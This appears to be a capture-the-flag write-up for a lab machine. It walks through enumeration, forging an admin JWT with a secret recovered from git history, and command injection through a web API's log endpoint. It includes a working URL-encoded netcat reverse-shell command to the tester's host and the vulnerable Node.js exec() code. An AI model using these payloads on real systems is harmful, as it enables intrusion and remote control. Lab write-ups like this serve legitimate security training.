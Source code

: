# User

## Web Enumeration

Nmap
```shell
# Nmap 7.92 scan initiated Fri Mar 25 13:06:23 2022 as: nmap -sV -sC -oA nmap-results 10.10.11.120
Nmap scan report for 10.10.11.120 (10.10.11.120)
Host is up (0.073s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:af:61:44:10:89:b9:53:f0:80:3f:d7:19:b1:e2:9c (RSA)
|   256 95:ed:65:8d:cd:08:2b:55:dd:17:51:31:1e:3e:18:12 (ECDSA)
|_  256 33:7b:c1:71:d3:33:0f:92:4e:83:5a:1f:52:02:93:5e (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: DUMB Docs
3000/tcp open     http    Node.js (Express middleware)
|_http-title: DUMB Docs
4129/tcp filtered nuauth
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar 25 13:06:42 2022 -- 1 IP address (1 host up) scanned in 18.78 seconds
```

Gobuster results with medium wordlist
```shell
/api                  (Status: 200) [Size: 93]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/docs                 (Status: 200) [Size: 20720]
/download             (Status: 301) [Size: 183] [--> /download/]
```

## Website Enumeration

This is a website of some kind of an open-source API with a live demo mode, which heads to `api/priv`. There is a documentation page, that has a lot of information about how the API works.

First, in the Log In section, there is an example of a log in request with an email and a password and I try to see, if this happens to be a valid admin account.
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/login' --data '{
"email": "root@dasith.works",
"password": "Kekc8swFgD6zU"
}'
```
No luck here unfortunately. 
So I proceed to register a new user, using the information given.
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/register' --data '{
"name": "testuser",
"email": "testuser@dasith.works",
"password": "testuser"
}'
```
with a succesfull response `{"user":"testuser"}`. I try to log in with these credentials to see that it really works.
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/login' --data '{
"email": "testuser@dasith.works",
"password": "testuser"
}'
```
with succes and response is `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.WdLNQs7gWNqS1-zDfhXstyqoqm7Y2UUXK8E0tkIFkxw`. This is the JWT token that authenticates user *"testuser"*.

Now I try to access `api/priv`
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.WdLNQs7gWNqS1-zDfhXstyqoqm7Y2UUXK8E0tkIFkxw' -i 'http://10.10.11.120/api/priv
```
and response is `{"role":{"role":"you are normal user","desc":"testuser"}}`. So I logged in as a user, but I need to find an other way to gain access as admin. I'm going to keep looking on the website for any other information, that could be helpful.

I find out that, I can download the source code, which can be really useful.

## Source Code Examination

Create JWT in log in
`routes/auth.js`
```js
    // create jwt 
    const token = jwt.sign({ _id: user.id, name: user.name , email: user.email}, process.env.TOKEN_SECRET )
    res.header('auth-token', token).send(token);
```

`/priv`
`rotes/private.js`
```js
router.get('/priv', verifytoken, (req, res) => {
   // res.send(req.user)

    const userinfo = { name: req.user }

    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        res.json({
            creds:{
                role:"admin", 
                username:"theadmin",
                desc : "welcome back admin,"
            }
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
```

```js
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})

router.use(function (req, res, next) {
    res.json({
        message: {

            message: "404 page not found",
            desc: "page you are looking for is not found. "
        }
    })
});
```

## JWT Forging

Using jwt.io and the JWT token I got with "testuser", I will try to forge a new one with `name="theadmin"` and the `TOKEN_SECRET=secret`(email doesn't really matter, since it checks only if `name="theadmin"`).
![jwtsecret](img/jwtfake.png)
Then I try to login with forged JWT token with `TOKEN_SECRET=secret`
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.DTKfqkj0GUAI46OLUGTwoOnBEgbQ0PkWk9pVMUz95g4' -i 'http://10.10.11.120/api/priv'
```
But it's rejected. This means, that the token secret has been changed, before the source code was uploaded.

Look in `.git` and find file `logs/HEAD` with commit history and a commit with description `commit: removed .env for security reasons`
Go back to that commit with:
![gitdiff](img/gitdiff.png)


Now I can forge the JWT token, this time with the real `TOKEN_SECRET`.
![jwtlegit](img/jwtlegit.png)

and login with it
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/priv'
```

I am now authenticated as the admin! 
 `{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}`

I have to find a way to make use of this, in order to get a reverse shell.

```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/logs?file=;whoami'
```

and response `"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\ndasith\n"`

```
curl -X GET -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/logs?file=;rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.74%204242%20%3E%2Ftmp%2Ff'
```

I got the reverse shell and **User Flag** ✔️!!

# Privillege Escalation

`find / -type f -perm -u=s 2>/dev/null`


Find `/opt/count` and visiting `/opt` there is a .c file also.
![code](img/code.png)

This program, reads a path from user input, loads it in it's memory and counts how many rows it has if it's a file or how many

Now I search the flag in the `strings CoreDump`.

![shell1](img/shell1.png)

![shell2](img/shell2.png)

![unpack](img/unpack.png)

![coredump](img/coredump.png)


**Root Flag** ✔️!!!





